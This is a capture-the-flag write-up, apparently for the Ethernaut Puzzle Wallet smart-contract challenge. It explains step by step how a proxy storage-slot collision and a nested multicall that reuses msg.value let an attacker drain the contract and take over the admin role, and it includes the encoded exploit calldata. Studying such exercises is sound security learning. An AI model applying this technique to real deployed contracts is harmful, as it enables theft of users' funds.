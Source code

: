 ## Steps:

1. address public pendingAdmin; ==> attacker address
2. can call function addToWhitelist(address addr), As the slot position of  pendingAdmin in PuzzleProxy is owner's position of PuzzleWallet
    ```
    contract PuzzleWallet {
    address public owner;
    uint256 public maxBalance;

    contract PuzzleProxy is UpgradeableProxy {
    address public pendingAdmin;
    address public admin;
    
    ```

3. So have the right call addToWhitelist() and  add attacker address to Whitelist 

4. Calling deposit function twice by using the multicall function. Beacause when using delegateCall function, the msg.value keep same, though which have checked only call deposit once, the nestmulticall(build multicall which includes deposit function) can execute depoist again. This operation leads to deposit msg.value twice literaly, but actually depost once. So the attacker can withdraw the balance including the puzzlet's balance.
    ```
    function multicall(bytes[] calldata data) external payable onlyWhitelisted {
        bool depositCalled = false;
        for (uint256 i = 0; i < data.length; i++) {
            bytes memory _data = data[i];
            bytes4 selector;
            assembly {
                selector := mload(add(_data, 32))
            }
            if (selector == this.deposit.selector) {
                require(!depositCalled, "Deposit can only be called once");
                // Protect against reusing msg.value
                depositCalled = true;
            }
            (bool success, ) = address(this).delegatecall(data[i]);
            require(success, "Error while delegating call");
        }
    }
    
5. As the puzzlet's balance equal zero, so can call setMaxBalance, which will change the admin of the proxy contract. 
* [sepolia-solve-tx](https://sepolia.etherscan.io/tx/0x84cc4470f6220c43f66464a58b9e08f28695672980af93551cf948a3d0900566)

### questions

I build the nestmulticall(including deposit) as  blew data by remix debugging. Are there some code can encode the array type?

0xac9650d80000000000000000000000000000000000000000000000000000000000000020000000000000000000000000000000000000000000000000000000000000000100000000000000000000000000000000000000000000000000000000000000200000000000000000000000000000000000000000000000000000000000000004d0e30db000000000000000000000000000000000000000000000000000000000

```
// below method build nestmulticall doesn't work
bytes memory func2 = abi.encodeWithSignature("deposit(uint256)",5);
bytes[1] memory func22 = [func2];
console.logBytes(abi.encodeWithSignature("multicall(bytes[])",func22));
```
